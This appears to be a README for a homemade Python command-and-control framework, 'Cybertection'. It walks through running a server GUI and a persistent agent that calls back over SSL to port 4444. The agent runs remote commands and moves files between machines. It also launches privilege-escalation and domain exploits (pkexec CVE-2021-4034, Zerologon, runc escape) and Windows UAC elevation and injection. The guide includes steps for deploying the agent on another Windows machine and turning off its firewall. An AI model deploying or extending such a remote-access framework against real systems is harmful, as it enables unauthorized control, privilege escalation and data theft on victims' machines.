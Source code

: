 # cybertection_server

Example Workflow
Kali Terminal 1: python3 cybertection_server.py.
Kali Terminal 2: python3 cybertection_agent.py.
GUI: Select agent, type whoami, click "Send"—see root.
Exploit: Choose "CVE-2021-4034," click "Run Exploit"—check output.
Log: Click "View Log," filter "cve" to review.
_______________________________________________________________________________________________________________

HOW TO USE


Copy and paste code in a text editor or ide

You must change the ipadress and port number in line 11.


Using the Framework
GUI Overview
Connected Agents: List of IPs/ports of active agents.
Output Area: Shows real-time logs (e.g., connections, command responses).
Command Input: Type commands to send to a selected agent.
Exploit Menu: Dropdown with exploits.
View Log: Opens a filterable log window.

Commands
Select an Agent:
Click an agent in the "Connected Agents" list (e.g., ('127.0.0.1', 54321)).

Send Basic Commands:
Type in "Command" box, click "Send":
whoami: Returns username (e.g., root on Kali).
ls (Linux) or dir (Windows): Lists directory contents.
cd /tmp: Changes directory (adjust for Windows, e.g., cd C:\Temp).
sysinfo: Shows OS and machine details.

File Transfer:
Upload: upload /path/to/file.txt (e.g., upload /home/kali/test.txt).
Download: download file.txt (saves as downloaded_file.txt on server).

Run Exploits:
Select exploit from dropdown, click "Run Exploit":
Elevate (Windows): Tries UAC elevation (Windows-only).
Inject (Windows): Simulates notepad injection (Windows-only).
CVE-2021-4034 (Linux): Escalates via pkexec (Kali, unpatched < Jan 2022).
CVE-2020-1472 (Zerologon - Windows): Resets DC password (needs impacket, DC setup).
CVE-2019-5736 (runc Escape - Linux): Container breakout (needs runc container).
Output appears in GUI and log.

View Logs:
Click "View Log".
Type in filter (e.g., "cve" to see exploit attempts).
Logs saved to cybertection_log.txt.
Exit:
Type exit in command box to disconnect an agent.
Close GUI to shut down server.
______________________________________________________________________________________________________
Troubleshooting [ERROR 111]
If you still see "Connection refused":

Server Not Listening:
netstat -tuln | grep 4444: No output means server didn’t bind.
Fix: Change port (e.g., port=5555 in both files), rerun.
Firewall:
sudo ufw status: If "inactive," use iptables -L and iptables -A INPUT -p tcp --dport 4444 -j ACCEPT.
Wrong IP:
Same machine: Keep 127.0.0.1.
Remote: Use Kali’s IP (e.g., 192.168.1.100).
SSL:
Test without: Comment wrap_socket lines in both files, rerun.


If "Connection Refused" Persists

Port Conflict: Change port=4444 to 5555 in both files, update firewall.

Firewall: sudo iptables -L (if ufw off), allow 4444: sudo iptables -A INPUT -p tcp --dport 4444 -j ACCEPT.

IP: If agent’s on Windows , use Kali’s IP, not 127.0.0.1.

SSL: Test without SSL (comment out wrap_socket lines in both).
___________________________________________________________________________________________________________
TROUBLESHOOYING

Why Commands Aren’t Sending
Agent Not Selected: The GUI requires selecting an agent from the "Connected Agents" list before sending works.
Command Queue Issue: The command_queue might not be updating or clearing properly.
Threading Lock: The handle_client thread might be stuck waiting for get_command_from_gui.
Socket Error: The client socket might’ve closed silently, breaking communication.
GUI Event: The "Send" button’s logic might not trigger correctly.
__________________________________________________________________________________________________________-

How to Run on Kali Linux
Prerequisites
Python: sudo apt install python3.
OpenSSL: sudo apt install openssl.
Tkinter: sudo apt install python3-tk.
Impacket: pip3 install impacket (for CVE-2020-1472).
GCC: sudo apt install build-essential (for CVE-2021-4034, CVE-2019-5736).

Steps
Generate SSL Certs:
Run server first: python3 cybertection_server.py.
Creates server.crt and server.key if missing.

Start Server:
python3 cybertection_server.py (GUI opens).
Check terminal: Should say "started on 0.0.0.0:4444".
Verify: netstat -tuln | grep 4444.

Allow Port:
sudo ufw allow 4444/tcp (if ufw is active; check with sudo ufw status).

Run Agent:
Same machine: python3 cybertection_agent.py (uses 127.0.0.1).
Different machine: Edit server_host to Kali’s IP (e.g., 192.168.1.100 via ifconfig), then run.

Debug Output:
Agent: Look for "Attempting connection" and "Connected!" or error details.
Server: Check log in GUI or cybertection_log.txt.
__________________________________________________________________________________________________________
Prerequisites
on Kali Linux:

Python 3: Should be pre-installed (python3 --version to check).
Tkinter: For the GUI—install with sudo apt install python3-tk.
OpenSSL: For SSL certs—install with sudo apt install openssl.
Impacket: For CVE-2020-1472—install with pip3 install impacket.
GCC: For CVE-2021-4034 and CVE-2019-5736—install with sudo apt install build-essential.
Net-tools: For netstat—install with sudo apt install net-tools.
_________________________________________________________________________________________________________

CONTINUED 
Running the Framework

Scenario 1: Server and Agent on Same Machine (Kali Linux)
Start the Server:
In a terminal:
bash
Wrap
Copy
python3 cybertection_server.py

GUI titled "Cybertection Server" opens.
Terminal shows: [2025-02-23 ...] Cybertection C2 Server started on 0.0.0.0:4444 (SSL).
Verify: netstat -tuln | grep 4444 (should show 0.0.0.0:4444 listening).
Start the Agent:
In a new terminal (same directory):
bash
Wrap
Copy
python3 cybertection_agent.py
Output:
text
Wrap
Copy
[*] Attempting connection to 127.0.0.1:4444
[+] Connected to Cybertection C2 at 127.0.0.1:4444 (SSL)

GUI: "Connected Agents" list shows ('127.0.0.1', <random_port>).


Scenario 2: Server on Kali, Agent Elsewhere (e.g., HP Envy Windows)
Find Kali’s IP:
ifconfig (or ip addr): Look for inet under your network interface (e.g., eth0 or wlan0), like 192.168.1.100.
Update Agent:
Edit cybertection_agent.py:
python
Wrap
Copy
if __name__ == "__main__":
    agent = CybertectionAgent(server_host="192.168.1.100")  # Replace with Kali’s IP
    threading.Thread(target=agent.run).start()
    agent.persist()

Copy server.crt to the agent machine’s directory (optional, since CERT_NONE is used).

Start Server on Kali:
Same as above: python3 cybertection_server.py.

Start Agent on Windows:
Install Python 3 on Windows (if not already): Download from python.org.
Run: python cybertection_agent.py.
Ensure Windows Firewall allows outbound to 4444 (or disable temporarily: Control Panel > Windows Defender Firewall > Turn off).
